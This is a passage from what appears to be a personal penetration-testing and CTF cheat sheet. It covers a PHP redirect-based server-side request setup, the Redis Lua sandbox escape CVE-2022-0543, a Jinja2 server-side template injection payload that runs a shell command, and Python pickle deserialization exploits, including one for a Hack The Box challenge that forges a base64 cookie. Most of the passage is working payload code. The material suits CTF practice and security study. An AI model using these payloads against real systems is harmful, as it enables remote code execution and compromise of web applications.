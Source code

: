     ```php
    <?php
    header("Location: http://site.com")
    ?>
    ```
2. Start up a local server 
    ```bash
    php -S <ip>:<port>
    ``` 
3. Query the script file from the victim site


# Redis - Lua sandbox escape vulnerability (CVE-2022-0543)
**CVE-2022-0543** - Eval command in Redis allows for RCE, hence being able to read files owned by others.
## References
- [https://thesecmaster.com/how-to-fix-cve-2022-0543-a-critical-lua-sandbox-escape-vulnerability-in-redis/#](https://thesecmaster.com/how-to-fix-cve-2022-0543-a-critical-lua-sandbox-escape-vulnerability-in-redis/#)


# Flask
## (Jinja 2) RCE
Server side template injection RCE
```python
{{request.application.globals.builtins.import('os').popen('id').read()}}
```

## Insecure deserialization (Python pickle)
Pickle data unserialization allows for RCE

### Normal exploit
**Note:**  If the encoded cookie doesn't look the same as expected one can edit the *protocol* argument on the `pickle.dumps()` function.
```py
import pickle,os

class Pickle(object):
    def __reduce__(self):
        return os.system, ('id',)

o = Pickle()
print(pickle.dumps(o))
```

### Exploit for HTB challenge (baby website rick)
A cookie from the website can be decoded in *base64* so, that one can see what variables it uses.      
Also, the cookie wasn't edited properly when the script was ran with *python3* so, I decided to run it with *python2*
```py
from base64 import b64encode
import pickle,subprocess

class anti_pickle_serum(object):
    def __reduce__(self):
        return subprocess.check_output, (["ls"],)

dumps = pickle.dumps({"serum": anti_pickle_serum()},protocol=0)
print(b64encode(dumps))
```